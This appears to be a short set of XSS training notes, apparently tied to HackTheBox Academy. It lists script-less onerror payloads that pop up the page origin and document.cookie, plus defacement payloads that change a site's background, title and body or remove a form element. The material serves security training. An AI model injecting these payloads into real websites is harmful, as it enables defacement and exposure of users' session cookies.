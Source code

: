 #### XSS Payload w/o `<script>` tag
```html
<img src="" onerror=alert(window.origin)>
```
Displays page URL

#### XSS Payload w/o `<script>` tag
```html
<img src="" onerror=alert(document.cookie)>
```

#### Change Background Color
```html
<script>document.body.style.background = "#141d2b"</script>
```

#### Change Background Image
```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

#### Change Website Title
```HTML
<script>document.title = 'HackTheBox Academy'</script>
```

#### Overwrite Website's Main Body
```html
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>
```
Must have `jQuery` library imported within the page source: `$("#todo").html('New Text');`

##### Prepare the HTML code locally
```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

##### Insert in parameter in single line as part of the XSS payload
```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

#### Remove certain HTML element
```html
<script>document.getElementById('urlform').remove();</script>
```
